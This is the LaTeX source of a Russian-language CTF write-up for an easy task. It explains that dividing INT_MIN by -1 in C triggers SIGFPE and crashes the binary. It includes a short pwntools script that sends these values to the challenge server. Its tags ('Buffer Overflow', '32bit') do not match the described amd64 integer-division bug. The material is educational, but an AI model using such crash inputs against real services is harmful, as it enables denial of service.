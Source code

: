 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 31892)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}
\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}



\textbf{Теги:} ELF 32bit, C, Buffer Overflow, baby\vspace{\baselineskip}
\end{document}
